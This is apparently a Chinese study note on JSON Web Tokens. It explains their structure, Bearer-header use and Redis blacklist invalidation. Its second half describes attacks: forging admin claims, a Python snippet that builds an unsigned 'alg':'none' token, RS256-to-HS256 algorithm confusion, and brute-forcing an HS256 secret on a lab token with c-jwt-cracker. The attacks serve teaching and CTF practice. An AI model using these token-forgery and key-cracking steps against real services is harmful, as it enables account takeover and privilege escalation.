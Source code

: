 json web token
jwt如：
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.
eyJuYW1lIjoi5bCP5piOIiwiaWQiOjEsImV4cCI6MTcwMzYwMzAxMywiaWF0IjoxNzAyOTk4MjEzLCJhdXRob3JpdGllcyI6W119.
McX2dyX5yW0S6lUsDC4s4qQpKHW072bmoS3fRSaUn9I
```
好处：jwt可以用于分布式系统，cs系统。
只要jwt时间没有过期，服务端代码没有变，服务端重启也还生效。
## **jwt组成**
在线解密和生成：
<https://jwt.io/#debugger-io>
<https://tooltt.com/jwt-decode/>

生成的jwt，由三部分组成，用.区分：
首部（头部）：用的什么加密算法，一般HMAC256（HS256）。
中部（载体）：加入的用户信息，jwt生成时间，jwt过期时间。
尾部：前面部分->密钥+加密算法->签名后的值。

^
首部可以base64解码查看用的什么加密算法
中部可以base64解码查看用户信息，jwt过期时间等


^
## **jwt会话**
jwt一般后端通过json响应体或setcookie给前端
前端通过请求头携带Authorization: Bearer xxx.xxx.xxx
"Bearer" 表示使用 Bearer 身份验证方案

或token请求头字段

这样跨域时不自动携带cookie也没关系
```
请求头：
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV\_adQssw5c



前端：
axios.get('https://example.com/api/some-resource', {
  headers: {
    'Authorization': `Bearer ${jwtToken：从本地localstorage取等}`
  }
})
  .then(response => {
    // 处理响应
  })
  .catch(error => {
    // 处理错误
  });
```
具体：
登录接口登录成功后，后端返回json中有jwt，前端保存jwt到本地存储，之后每次请求携带上。

## **jwt失效**
1. 时间过期失效。
2. 加入黑名单主动失效。
3. 数据库实时验证： 将令牌和用户信息关联存储在数据库中，当用户登出时，删除相应的 Token 记录。验证时，检查数据库中是否存在对应的 Token 记录。





点击退出登录加入redis黑名单：
将 JWT的标识ID如UUID 存储在 Redis 中作为黑名单是一种常见的方式来实现用户退出登录后使 JWT 失效。这通常被称为 JWT 的黑名单机制。

实现方式如下：
1. **用户退出登录时：** 当用户主动退出登录或者进行注销操作时，将相应的 JWT的UUID 加入 Redis 黑名单。可以使用 Redis 的 Set 数据结构，将 JWT 的唯一标识存储UUID在 Set 中。
2. **验证 JWT 是否有效：** 在接收到请求时，首先解析JWT检查 JWT 的UUID是否在 Redis 黑名单中。如果 JWT的UUID 存在于黑名单，说明用户已经退出登录，此时应拒绝该 JWT 的访问。
3. **JWT 过期处理：** JWT 本身包含了过期时间信息，因此在验证 JWT 有效性时，也需要检查 JWT 是否已经过期。即使 JWT 不在黑名单中，如果已经过期，也应该拒绝其访问。

^
## **伪造jwt越权**
jwt的数据载体可能会有表示这个用户是否为管理员，如"admin":"flase"。
如果知道jwt的加密算法模式和密钥(爆破出，泄露出)，或者错误使用了空算法模式（无需密钥，"alg":"none"）。

**空密钥：**
无需密钥，如：
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJuYW1lIjoi5bCP5piOMyIsImlkIjoyLCJleHAiOjE3MDM2MDMwMTMsImlhdCI6MTcwMjk5ODIxMywiYXV0aG9yaXRpZXMiOlsxXX0.GcIsfpEB3dv62Yt88yjYBeHhzHKAgNcfVzR5Fso6kjw
```
就可以修改"admin":"true"，再使用算法重新签名。
实现越权。
在线生成：<https://jwt.io/#debugger-io>
参考：<http://cnblogs.com/vege/p/14468030.html>

^
**nodejs的空密钥：**
nodejs的jwt缺陷，当jwt的secret为空，jwt会采用algorithm为none进行解密。
于是：
```
import base64

a = '{"alg":"none","typ":"JWT"}'
b = '{"secretid":[],"username":"admin","password":"123","iat":1660895973}'
print(base64.b64encode(a.encode('utf-8')))
print(base64.b64encode(b.encode('utf-8')))

# 生成eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=
# 生成eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY2MDg5NTk3M30=
# 于是JWT：eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzZWNyZXRpZCI6W10sInVzZXJuYW1lIjoiYWRtaW4iLCJwYXNzd29yZCI6IjEyMyIsImlhdCI6MTY2MDg5NTk3M30.
```

^
## **PS256算法的jwt可以伪造**
<https://blog.csdn.net/weixin_53090346/article/details/134277438>
<https://www.cnblogs.com/S1gMa/p/16846438.html>


^
## **RS256加密的jwt**
RS256加密的jwt是私钥加密，前端公钥解密。
JWT的签名加密算法有两种，对称加密算法和非对称加密算法。
对称加密算法比如HS256，加解密使用同一个密钥，保存在后端。
非对称加密算法比如RS256，后端加密使用私钥，前端解密使用公钥，公钥是我们可以获取到的。

如果我们修改header，将算法从RS256更改为HS256，后端代码会使用RS256的公钥作为HS256算法的密钥。于是我们就可以用RS256的公钥伪造数据
CTF题目：[http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php](https://links.jianshu.com/go?to=http%3A%2F%2Fdemo.sjoerdlangkemper.nl%2Fjwtdemo%2Frs256.php)





^
## **jwt逻辑漏洞**
生成jwt的密钥简单，如123456，如用用户名做密钥。
jwt没有主动失效，只有靠时间失效，容易被盗取。

^
## **更多学习和工具**
<https://www.jianshu.com/p/2488567c4a18>


^
## **破解jwt**
如对HS256方式进行爆破密钥

\#访问靶场，获取token
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MDIwMjQ3ODEsImxldmVsIjoidXNlciI
sInVzZXIiOiJqYXNwZXIifQ.zzr9KoJFdElwSGjcs3zs6Zgv0Lp\_eA4Secn8sUEVgIA

\#使用c-jwt-cracker-master 破解，<https://www.cnblogs.com/easyday/p/18022431#:~:text=Manual%20Com>
获得key：hello
```
git clone https://github.com/brendan-rius/c-jwt-cracker
apt-get install libssl-dev
make

./jwtcrack
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpYXQiOjE3MDIwMjQ3ODEsImxldmVsIjoidXNlciI
sInVzZXIiOiJqYXNwZXIifQ.zzr9KoJzs6Zgv0Lp_eA4Secn8sUEVgIA
```
\#使用https\://jwt.io/，进行加密


